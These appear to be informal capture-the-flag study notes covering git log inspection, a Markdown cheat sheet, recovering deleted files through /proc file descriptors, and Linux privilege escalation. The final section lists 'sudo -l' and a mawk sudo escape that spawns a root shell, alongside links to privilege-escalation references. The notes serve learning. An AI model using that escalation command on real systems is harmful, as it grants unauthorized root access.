 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
     git merge login(while in master branch)


     .git/logs/refs/heads/master => commits file
     .git/logs/HEAD

     .git/index
     git reset --hard HEAD~1 => Undo comiits one by one





     MARKDOWN GUIDE
     LINKS
     -----
        dillinger.io
        markdownguide.org/getting-started/
        https://www.markdowntutorial.com

        # head 				-Heading 
        ## subhead			-Subheading
        ###subsubhead		-subsubheading
        - sentence 			-ordered list(smalldots)
        _thisisiitalic_    	-italic text
        [text](linkhere)	- This is a link	
        `text`				- This is highlighted
        > texthere			- This has left border
        **bold**			-This text is bold
        ```highligh``		-This text is highlighted

        images
        ![Benjamin Bannekat](https://octodex.github.com/images/bannekat.png) - display the image from the source


                                    =======================

                                    LINUX AND JAIL ESCAPING

                                    =======================






    You can file recently deleted files in linux using the lsof command
    a)running lsof gives
        tail  10(pid of responsible process) wolf1  3r(3 is file descriptor) REG   0,50  20 780675 /home/wolf1/pass (deleted)
     b)This files go to proc.Access them using
        cat /proc/pid/fd/fdvalue
        cat /proc/10/fd/3
        cat /proc/10/fd/3 > outfile
    Changing to another account su - wolf2

        https://gtfobins.github.io/
        https://book.hacktricks.xyz/linux-unix/privilege-escalation
        sudo -l
        sudo -u root /usr/bin/mawk 'BEGIN {system("/bin/sh")}'


```